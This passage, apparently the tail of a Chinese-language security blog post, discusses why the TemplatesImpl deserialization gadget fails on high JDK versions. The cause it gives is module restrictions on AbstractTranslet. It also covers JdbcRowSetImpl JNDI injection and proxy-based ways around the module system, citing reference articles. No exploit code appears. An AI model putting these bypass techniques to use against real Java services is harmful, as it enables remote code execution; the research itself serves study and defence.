

然后一直来到 `defineTransletClasses` 方法，但是再调用 defineclass 进行类加载的时候报错



看到是因为我们的恶意类继承了 AbstractTranslet，而 AbstractTranslet 受模块化机制影响，所以导致失败。



但是我们不继承这个 AbstractTranslet 类的化后面无法通过判断导致不会实列化恶意类，就算加载进去也没法触发。

所以经常说再 jdk 高版本无法使用 TemplatesImpl 类，那么对于 JdbcRowSetImpl 类呢，这个类的 getDatabaseMetaData 方法也可以进行 jndi 注入并且是个 getter 方法，但是的话这个类只有 JdbcRowSetImpl 类中才有，无法用代理类进行绕过。

不过，对于一些方法受模块化影响而且接口类有对应方法，sink点不涉及模块化的倒是可以用这种形式进行绕过

## 参考

[https://pankas.top/2023/12/05/jdk17-反射限制绕过/#JDK17-对反射的限制](https://pankas.top/2023/12/05/jdk17-%E5%8F%8D%E5%B0%84%E9%99%90%E5%88%B6%E7%BB%95%E8%BF%87/#JDK17-%E5%AF%B9%E5%8F%8D%E5%B0%84%E7%9A%84%E9%99%90%E5%88%B6)

<https://xz.aliyun.com/news/17257>
